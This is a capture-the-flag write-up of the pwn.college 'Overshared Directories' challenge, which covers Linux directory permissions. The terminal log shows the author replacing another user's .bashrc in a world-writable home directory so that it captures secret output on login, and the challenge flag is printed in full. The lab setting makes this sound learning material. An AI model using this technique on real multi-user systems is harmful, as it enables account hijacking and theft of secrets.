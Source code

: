 # Silly Shenanigins 

## Overshared Directories
Alright Zardus has wised up --- why would he havse a writeable .bashrc anyway? But a more common scenario is that users on the same system, to make it easier to collabrate, will make their home directories world writeable. What's the problem here?

The problem is that a subtlety of Linux file/directory permissions is that anyone with write access to a directory can move and delete files in it. For example, let's say that Zardus has a world-writable directory for collabaration. And then a hacker comes along and does the following, despite not owning the todo-list file!

```bash
hacker@dojo:~$ ls -l /tmp/collab/todo-list
-rw-r--r-- 1 zardus zardus 15 Jun  6 13:12 /tmp/collab/todo-list
hacker@dojo:~$ rm /tmp/collab/todo-list
rm: remove write-protected regular file '/tmp/collab/todo-list'? y
hacker@dojo:~$ echo "send hacker money" > /tmp/collab/todo-list
hacker@dojo:~$ ls -l /tmp/collab/todo-list
-rw-r--r-- 1 hacker hacker 18 Jun  6 13:12 /tmp/collab/todo-list
hacker@dojo:~$
```

This might seem counterintuitive: hacker has no write access to the todo-list but the end result is that they can change the content

### Objective
In this challenge, for convenience, Zardus opened up his home directory. As you know, there are lots of sensitive files in that directory such as .bashrc! Can you replicate the previous attack with write access to /home/zardus instead of /home/zardus/.bashrc?

### Solve
**Flag:** `pwn.college{MouaAaQoRV8TZgPXbatZfK8lfl_.QXwQTM3EDLygjN0czW}`

- In this challenge, we cannot directly change the .bashrc file like we did in the last one because this time, the .bashrc file is not writeable instead we have the write access to Zardus' home directory. 
- So, just like in the last challenge, I first created the flag_checker file but this time in the `/home/zardus` directory and gave it executable permissions. Then I added `/home/zardus` to the PATH variable. 
- Just to confirm the new location of the flag_checker file, I used the `which` command as well. Once confirmed, I ran the `/challenge/victim` command. But something strange happened and instead of executing the flag_checker script that I provided, the command still executed the one provided by the challenge. This shouldn't have happened now.
- I rechecked all the steps that I took and they were correct but even after running the challenge again and again, it still wasn't running my flag_checker script.
- Then as a last resort, I deleted the .bashrc file and made a new one. In the new one, I executed the flag_checker command inside the .bashrc script and stored its output in a different file. Then I used `cat` to display the stolen output. 
- This time when I ran the challenge, I got the flag.

```bash
hacker@shenanigans~overshared-directories:~$ cd /home/zardus
hacker@shenanigans~overshared-directories:/home/zardus$ ls
hacker@shenanigans~overshared-directories:/home/zardus$ nano flag_checker
hacker@shenanigans~overshared-directories:/home/zardus$ mv flag_chekcer .bashrc
mv: cannot stat 'flag_chekcer': No such file or directory
hacker@shenanigans~overshared-directories:/home/zardus$ ls
flag_checker
hacker@shenanigans~overshared-directories:/home/zardus$ mv flag_checker .bashrc
mv: replace '.bashrc', overriding mode 0644 (rw-r--r--)? y
hacker@shenanigans~overshared-directories:/home/zardus$ /challenge/victim
Username: zardus
Password: ***********
flag_checker
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag, victim: ************************************************************
Correct!
zardus@shenanigans~overshared-directories:~$ exit
logout
hacker@shenanigans~overshared-directories:/home/zardus$ nano flag_checker
hacker@shenanigans~overshared-directories:/home/zardus$ cat .bashrc
#!/bin/bash 

echo flag_checker > stolen_flag.txt
cat stolen_flag.txt
hacker@shenanigans~overshared-directories:/home/zardus$ nano .bashrc
hacker@shenanigans~overshared-directories:/home/zardus$ /challenge/victim
Username: zardus
Password: ***********
cat: flag_checker: No such file or directory
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag, victim: ************************************************************
Correct!
zardus@shenanigans~overshared-directories:~$ exit
logout
hacker@shenanigans~overshared-directories:/home/zardus$ rm .bashrc
hacker@shenanigans~overshared-directories:/home/zardus$ nano .bashrc
hacker@shenanigans~overshared-directories:/home/zardus$ /challenge/victim
Username: zardus
Password: ***********
cat: flag_checker: No such file or directory
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag, victim: ************************************************************
Correct!
zardus@shenanigans~overshared-directories:~$ exit
logout
hacker@shenanigans~overshared-directories:/home/zardus$ which flag_checker
/run/challenge/bin/flag_checker
hacker@shenanigans~overshared-directories:/home/zardus$ nano .bashrc
hacker@shenanigans~overshared-directories:/home/zardus$ /challenge/victim
Username: zardus
Password: ***********
#!/opt/pwn.college/bash

echo -n "Type the flag, victim: "
read -r candidate

echo
if [ "$candidate" = "$(cat /flag)" ]; then
    echo "Correct!"
    exit 0
else
    echo "Incorrect!"
    exit 1
fi
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag, victim: ************************************************************
Correct!
zardus@shenanigans~overshared-directories:~$ exit
logout
hacker@shenanigans~overshared-directories:/home/zardus$ nano .bashrc
hacker@shenanigans~overshared-directories:/home/zardus$ /challenge/victim
Username: zardus
Password: ***********
/run/challenge/bin/flag_checker
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag, victim: ************************************************************
Correct!
zardus@shenanigans~overshared-directories:~$ exit
logout
hacker@shenanigans~overshared-directories:/home/zardus$ nano .bashrc
hacker@shenanigans~overshared-directories:/home/zardus$ cat .bashrc
#!/bin/bash

/run/challenge/bin/flag_checker > stolen.txt
cat stolen.txt
hacker@shenanigans~overshared-directories:/home/zardus$ /challenge/victim
Username: zardus
Password: ***********
flag_checker
Type the flag, victim: 
Incorrect!
zardus@shenanigans~overshared-directories:~$ ************************************************************-bash: pwn.college{MouaAaQoRV8TZgPXbatZfK8lfl_.QXwQTM3EDLygjN0czW}: command not found
zardus@shenanigans~overshared-directories:~$ exit
logout
hacker@shenanigans~overshared-directories:/home/zardus$ 
```

### New Learnings
1. When the directories are made world writeable, anyone can write and delete file in it, including the .bashrc. That way anyone can make new .bashrc and if made with malicious intentions, it might cause an issue.